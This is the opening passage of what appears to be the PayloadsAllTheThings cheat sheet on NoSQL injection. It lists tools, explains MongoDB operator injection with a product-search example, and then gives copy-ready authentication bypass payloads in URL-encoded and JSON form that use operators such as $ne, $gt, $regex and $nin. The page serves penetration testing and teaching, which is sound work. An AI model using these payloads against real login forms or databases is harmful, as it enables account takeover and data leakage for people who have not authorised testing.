

repository: swisskyrepo/PayloadsAllTheThings · page: NoSQL Injection/index.html · generator: mkdocs

# NoSQL Injection

> NoSQL databases provide looser consistency restrictions than traditional SQL databases. By requiring fewer relational constraints and consistency checks, NoSQL databases often offer performance and scaling benefits. Yet these databases are still potentially vulnerable to injection attacks, even if they aren't using the traditional SQL syntax.

## Summary

* [Tools](#tools)
* [Methodology](#methodology)
    * [Operator Injection](#operator-injection)
    * [Authentication Bypass](#authentication-bypass)
    * [Extract Length Information](#extract-length-information)
    * [Extract Data Information](#extract-data-information)
    * [WAF and Filters](#waf-and-filters)
* [Blind NoSQL](#blind-nosql)
    * [POST with JSON Body](#post-with-json-body)
    * [POST with urlencoded Body](#post-with-urlencoded-body)
    * [GET](#get)
* [Labs](#references)
* [References](#references)

## Tools

* [codingo/NoSQLmap](https://github.com/codingo/NoSQLMap) - Automated NoSQL database enumeration and web application exploitation tool
* [digininja/nosqlilab](https://github.com/digininja/nosqlilab) - A lab for playing with NoSQL Injection
* [matrix/Burp-NoSQLiScanner](https://github.com/matrix/Burp-NoSQLiScanner) - This extension provides a way to discover NoSQL injection vulnerabilities.

## Methodology

NoSQL injection occurs when an attacker manipulates queries by injecting malicious input into a NoSQL database query. Unlike SQL injection, NoSQL injection often exploits JSON-based queries and operators like `$ne`, `$gt`, `$regex`, or `$where` in MongoDB.

### Operator Injection

| Operator | Description        |
| -------- | ------------------ |
| $ne      | not equal          |
| $regex   | regular expression |
| $gt      | greater than       |
| $lt      | lower than         |
| $nin     | not in             |

Example: A web application has a product search feature

```js
db.products.find({ "price": userInput })
```

An attacker can inject a NoSQL query: `{ "$gt": 0 }`.

```js
db.products.find({ "price": { "$gt": 0 } })
```

Instead of returning a specific product, the database returns all products with a price greater than zero, leaking data.

### Authentication Bypass

Basic authentication bypass using not equal (`$ne`) or greater (`$gt`)

* HTTP data

  ```ps1
  username[$ne]=toto&password[$ne]=toto
  login[$regex]=a.*&pass[$ne]=lol
  login[$gt]=admin&login[$lt]=test&pass[$ne]=1
  login[$nin][]=admin&login[$nin][]=test&pass[$ne]=toto
  ```

* JSON data

  ```json
  {"username": {"$ne": null}, "password": {"$ne": null}}
  {"username": {"$ne": "foo"}, "password": {"$ne": "bar"}}
  {"username": {"$gt": undefined}, "password": {"$gt": undefined}}
  {"username": {"$gt":""}, "password": {"$gt":""}}
  ```
